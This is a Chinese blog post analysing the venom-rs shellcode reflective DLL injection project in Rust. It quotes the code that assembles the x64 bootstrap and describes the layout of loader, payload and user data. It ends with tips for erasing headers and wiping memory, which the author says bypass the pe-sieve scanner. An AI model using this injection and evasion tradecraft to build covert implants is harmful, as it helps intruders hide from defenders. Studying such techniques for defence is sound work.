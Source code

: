 ```yaml
---
title: srdi-rs项目学习
date: '2025-06-02 21:16:34'
permalink: /post/srdirs-project-learning-z1ry7kq.html
layout: post
published: true
---
```




# srdi-rs项目学习

本篇文章对 [memN0ps/venom-rs: Rusty Injection - Shellcode Reflective DLL Injection (sRDI) in Rust](https://github.com/memN0ps/venom-rs) 进行分析学习，该项目完成了 rust 下 rdi 的实现，在写 c2 的时候有一定的参考意义。

## 项目分析

### 项目总体分析

项目目录如下所示，共有四个文件夹，分别为 generate_shellcode、inject、payload、reflective_loader，其中 inject 顾名思义是注入模块，是作者为了方便测试生成的 shellcode 所写的，这里不多做分析，payload 模块也就是要执行的功能模块，作者在这里写了弹窗功能，也不多做分析。

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602212116-8e3h6og.png)

### reflective_loader

该部分实现了一个名为 `loader` ​的导出函数，用于反射加载 payload，和常规的 rdi 一样，其流程如下图所示：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602213922-ib32yct.png)

在这里不多解释流程，但是在最后我们会讨论一些优化的点。

### generate_shellcode

generate_shellcode 这一部分是该项目的核心所在，而该部分的核心就是 `Bootstrap` ​的构造，下面对 `Bootstrap` ​的构造进行详细分析。

首先 shellcode 需要找到自身在内存中的位置，通过 `call 0x00`​ 的方式，将下一条指令的位置压入栈中，进而 `pop rcx;mov r8, rcx`​,将位置保存到 rcx 和 r8 中。

```rust
    //
    // Step 1) Save the current location in memory for calculating addresses.
    //

    // call 0x00 (This will push the address of the next function to the stack)
    bootstrap.push(0xe8);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);

    // pop rcx - This will pop the value we saved on the stack into rcx to capture our current location in memory
    bootstrap.push(0x59);

    // mov r8, rcx - We copy the value of rcx into r8 before we start modifying RCX
    bootstrap.push(0x49);
    bootstrap.push(0x89);
    bootstrap.push(0xc8);
```

紧接着，对齐栈指针并且为函数调用开辟影子空间。`push rsi;mov rsi, rsp;and rsp, 0x0FFFFFFFFFFFFFFF0`​，先备份 rsi 和 rsp，然后将 rsp 按照 16 字节对齐（windows 调用约束规定），`sub rsp, 0x30`​ ​开辟影子空间，因为 `loader`​ ​函数共有六个参数，所以要预留 `6 × 8 = 48`​ ​字节空间，即使前四个参数通过寄存器传参这里也需要预留空间。

```rust
    // Step 2) Align the stack and create shadow space
    // push rsi - save original value
    bootstrap.push(0x56);

    // mov rsi, rsp - store our current stack pointer for later
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xe6);

    // and rsp, 0x0FFFFFFFFFFFFFFF0 - Align the stack to 16 bytes
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xe4);
    bootstrap.push(0xf0);

    // sub rsp, 0x30 (48 bytes) - create shadow space on the stack, which is required for x64. A minimum of 32 bytes for rcx, rdx, r8, r9. Then other params on stack
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xec);
    bootstrap.push(6 * 8); //6 args that are 8 bytes each
```

然后我们开始参数传递，`loader` ​函数的签名为：`pub unsafe extern "system" fn loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)`​，

首先是第 5 个参数，是 `_shellcode_bin`​，其实也就是 shellcode 的其实位置，将之前 rcx 中的值减去 5 即可，这个参数在 `loader`​ ​函数中并没有使用，但是我们可以自己加上清理内存的步骤。然后是第六个参数，其实就是一个 flag 值，用来判断是执行 `DllMain`​ ​还是其他导出函数。

```rust
    // Step 3) Setup reflective loader parameters: Place the last 5th and 6th args on the stack since, rcx, rdx, r8, r9 are already in use for our first 4 args.
    // mov qword ptr [rsp + 0x20], rcx (shellcode base + 5 bytes) - (32 bytes) Push in arg 5
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0x4C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg
    // sub qword ptr [rsp + 0x20], 0x5 (shellcode base) - modify the 5th arg to get the real shellcode base
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0x6C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg

    bootstrap.push(5); // minus 5 bytes because call 0x00 is 5 bytes to get the allocate memory from VirtualAllocEx from injector
    // mov dword ptr [rsp + 0x28], <flags> - (40 bytes) Push arg 6 just above shadow space
    bootstrap.push(0xC7);
    bootstrap.push(0x44);
    bootstrap.push(0x24);
    bootstrap.push(5 * 8); // 6th arg
    bootstrap.append(&mut flags_value.to_le_bytes().to_vec().clone());
```

然后是第四个参数 `user_data_len`​，这是传递给 payload 的参数的长度，第三个参数 `user_data`​，该参数的位置在 srdi 的最后，还记得我们前面 r8 中已经存了 `shellcode的位置+5`​，所以我们再加上剩下的 bootstrap 以及 loader、payload 就找到 userdata 了，即 `add r8,(BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() + payload_bytes.len();`​

然后是第二个参数`function_hash`​，要执行的函数的hash，直接mov就行了。第一个参数`payload_dll`​，payload的位置，`add rcx, (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len()`​，道理和前面`user_data`​一样，不再多讲。

```rust
    // Step 4) Setup reflective loader parameters: Place the 1st, 2nd, 3rd and 4th args in rcx, rdx, r8, r9

    // mov r9, <parameter_length> - copy the 4th parameter, which is the length of the user data into r9
    bootstrap.push(0x41);
    bootstrap.push(0xb9);
    let parameter_length = parameter_value.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut parameter_length.to_le_bytes().to_vec().clone());

    // add r8, <parameter_offset> + <payload_length> - copy the 3rd parameter, which is address of the user function into r8 after calculation
    bootstrap.push(0x49);
    bootstrap.push(0x81);
    bootstrap.push(0xc0); // We minus 5 because of the call 0x00 instruction
    let parameter_offset =  (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32 + payload_bytes.len() as u32;
    bootstrap.append(&mut parameter_offset.to_le_bytes().to_vec().clone());

    // mov edx, <prameter_hash> - copy the 2nd parameter, which is the hash of the user function into edx
    bootstrap.push(0xba);
    bootstrap.append(&mut function_hash.to_le_bytes().to_vec().clone());

    // add rcx, <payload_offset> - copy the 1st parameter, which is the address of the user dll into rcx after calculation
    bootstrap.push(0x48);
    bootstrap.push(0x81);
    bootstrap.push(0xc1); // We minus 5 because of the call 0x00 instruction
    let payload_offset = (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut payload_offset.to_le_bytes().to_vec().clone());
```

接下来就是`call <loader_offset>`​，同样的按照上面的方法计算出loader函数和当前位置偏移即可偏移，最后恢复寄存器的值，`ret`​即可。

End Bootstrap之后继续构造shellcode，后面分别添加上loader、payload、user_data即可。

```rust
    // Step 5) Call reflective loader function

    // call <loader_offset> - call the reflective loader address after calculation
    bootstrap.push(0xe8);
    // This must u32 or it breaks assembly
    let loader_address = (BOOTSTRAP_TOTAL_LENGTH - bootstrap.len() as u32 - 4 as u32) + loader_offset as u32;    
    bootstrap.append(&mut loader_address.to_le_bytes().to_vec().clone());

    // Step 6) Reset the stack to how it was and return to the caller

    // mov rsp, rsi - Reset our original stack pointer
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xf4);

    // pop rsi - Put things back where we left them
    bootstrap.push(0x5e);

    // ret - return to caller and resume execution flow (avoids crashing process)
    bootstrap.push(0xc3);

    // End Bootstrap

 	let mut shellcode: Vec<u8> = Vec::new();

    // Bootstrap shellcode populated with the correct offsets and values
    shellcode.append(&mut bootstrap);

    // Reflective Loader (RDI)
    shellcode.append(loader_bytes);

    // Payload DLL (Existing DLL)
    shellcode.append(payload_bytes);

    // Parameter Value (User-Data)
    shellcode.append(&mut parameter_value.as_bytes().to_vec());
```

x64dbg下看bootstrap：

![](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/1719661787005-d85880a1-0a74-474e-8fa1-e5a54098c662.png)

最后整体布局如下：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250603140356-6svfdxx.png)

## 优化的点

下面讨论一些优化的点：

1. 在将payload复制的时候，文件头可以不用复制，擦除文件头
2. 修改内存段属性，注意内存属性的分配
3. 我们在`loader`​函数中传参，传的`_shellcode_bin`​参数并没有使用，可以利用这个参数将旧内存进行清理，可以在loader中清理BootStrap的，然后在新内存空间的payload中清理shellcode剩下的内存，或者直接在payload中清理整个shellcode

经过优化可达到bypass pe-sive的效果：

![82216cb6e7801822d61bdd009518ed5a](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/82216cb6e7801822d61bdd009518ed5a-20250603142108-w1aaxas.png)

‍
